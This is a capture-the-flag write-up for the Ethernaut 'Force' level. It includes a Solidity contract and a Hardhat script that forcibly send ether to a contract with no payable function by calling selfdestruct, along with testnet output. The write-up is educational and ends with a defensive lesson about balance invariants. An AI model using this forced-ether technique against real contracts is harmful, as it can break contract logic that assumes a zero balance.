 ```yaml
---
title: "Ethernaut #07 Force"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Force challenge writeup
---
```


## Force

### Challenge

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

* Fallback methods
* Sometimes the best way to attack a contract is with another contract.
* See the Help page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### Background

This challange was the first I didn't know how to solve and needed to check. It turns out when a contract `selfdestruct`s it can choose where its funds should go. And one option is to send all funds to a different contract. In this case the contract will accept the funds.

### Attack

Create a contract with `selfdestruct` functionality, send funds to it and trigger the `selfdestruct` with the address of the `Force` contract.

* Create a contract that can `selfdestruct`
* Call the `selfdestruct` functionality on the contract with the `Force` address argument and send some value to it

#### ForceSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceSolve {

  constructor() public {}

  function send(address payable _forceAddress) public payable {
    selfdestruct(_forceAddress);
  }
}
```

#### force-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    forceAddress = "0x5B4656e37375734215B0C4dB0fFE6548009C9c26";
    contract = await ethers.getContractAt("Force", forceAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    ForceSolve = await ethers.getContractFactory("ForceSolve");
    forceSolve = await ForceSolve.deploy();
    await forceSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // send funds buy calling selfdestruct
    tx = await forceSolve.connect(account).send(contract.address, { value: 1 })
    receipt = await tx.wait()

    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/force-solve.js --network rinkeby
Level address   : 0x5B4656e37375734215B0C4dB0fFE6548009C9c26
Contract Balance: 0
Contract Balance: 1
```

### Success Message

In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
